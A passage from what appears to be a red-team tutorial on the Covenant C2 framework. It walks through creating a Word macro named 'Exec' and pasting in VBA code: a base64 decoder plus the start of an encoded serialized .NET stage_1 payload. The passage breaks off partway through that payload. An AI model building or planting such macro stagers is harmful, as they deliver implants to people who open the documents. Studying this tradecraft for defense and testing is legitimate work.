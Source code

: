 
<p align="center">
  <img src="/assets/posts/2021-07-01-Entering-the-Covenant-C2C/cov11.JPG">
</p>

After selecting the current document, we’ll enter a name for the macro. In this example, we’ll 
name the macro “Exec” and then select Create. This will launch the VBA editor where we can run and debug the code. 
Now copy inside the VBA editor the following adapted VBA code:

```vba
Function b64Decode(ByVal enc)
    Dim xmlObj, nodeObj
    Set xmlObj = CreateObject("Msxml2.DOMDocument.3.0")
    Set nodeObj = xmlObj.CreateElement("base64")
    nodeObj.dataType = "bin.base64"
    nodeObj.Text = enc
    b64Decode = nodeObj.nodeTypedValue
    Set nodeObj = Nothing
    Set xmlObj = Nothing
End Function

Function Exec()
    
	Dim stage_1, stage_2

stage_1 = "AAEAAAD/////AQAAAAAAAAAMAgAAAF5NaWNyb3NvZnQuUG93ZXJTaGVsbC5FZGl0b3IsIFZlcnNpb249My4wLjAuMCwgQ3VsdHVy"
```